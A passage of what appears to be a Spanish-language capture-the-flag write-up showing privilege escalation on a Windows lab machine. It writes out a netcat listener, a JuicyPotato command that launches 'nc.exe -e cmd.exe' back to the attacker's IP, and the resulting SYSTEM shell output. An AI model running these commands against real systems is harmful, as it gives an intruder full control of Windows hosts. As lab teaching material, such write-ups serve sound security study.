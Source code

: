 Nos ponemos en escucha con `netcat` por el `puerto 443`

```
# nc -nlvp 443
```

Desde la máquina windows ejecutamos `JuicyPotato` para mandarnos un `shell` a nuestro equipo como `nt authority\system`

```
C:\Users\kohsuke\Desktop>JuicyPotato.exe -l 1337 -c "{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD}" -p C:\Windows\System32\cmd.exe -a "/c C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.16 443" -t * 
JuicyPotato.exe -l 1337 -c "{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD}" -p C:\Windows\System32\cmd.exe -a "/c C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.16 443" -t * 
Testing {08D9DFDF-C6F7-404A-A20F-66EEC0A609CD} 1337
......
[+] authresult 0
{08D9DFDF-C6F7-404A-A20F-66EEC0A609CD};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Recibimos la `shell` como `usuario privilegiado`

```
# nc -nlvp 443    
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.194.239] 49716
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
